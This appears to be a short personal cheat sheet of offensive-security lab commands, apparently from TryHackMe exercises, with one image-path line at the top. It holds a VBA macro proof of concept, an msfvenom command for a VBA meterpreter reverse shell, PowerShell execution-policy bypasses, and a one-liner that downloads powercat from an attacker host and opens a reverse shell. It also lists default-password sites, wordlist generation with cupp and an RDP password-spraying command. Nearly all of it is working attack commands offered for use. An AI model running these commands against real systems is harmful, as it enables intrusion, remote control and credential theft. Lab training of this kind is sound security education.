 Sub PoC()
	
	Dim payload As String
	
	payload = "calc.exe"
	
	CreateObject("Wscript.Shell").Run payload,0

End Sub

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.50.159.15 LPORT=443 -f vba

## PowerShell Execution ##

powershell -File thm.ps1

Set-ExecutionPolicy -Scope CurrentUser RemoteSigned

powershell -ex bypass -File thm.ps1

powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKBOX_IP:8080/powercat.ps1');powercat -c ATTACKBOX_IP -p 1337 -e cmd"

# Default Passwords #

https://cirt.net/passwords

https://default-password.info/

https://datarecovery.com/rd/default-passwords/

cat file1.txt file2.txt file3.txt > combined_list.txt

sort combined_list.txt | uniq -u > cleaned_combined_list.txt

python3 username_generator.py -h

echo "John Smith" > users.lst

python3 username_generator.py -w users.lst

# Cupp #

git clone https://github.com/Mebus/cupp.git

python3 cupp.py

python3 cupp.py -i

python3 cupp.py -l

python3 cupp.py -a
	
# RDP Password #
	
python3 RDPassSpray.py -U usernames-list.txt -p Spring2021! -d THM-labs -T RDP_servers.txt

# Active Directory #
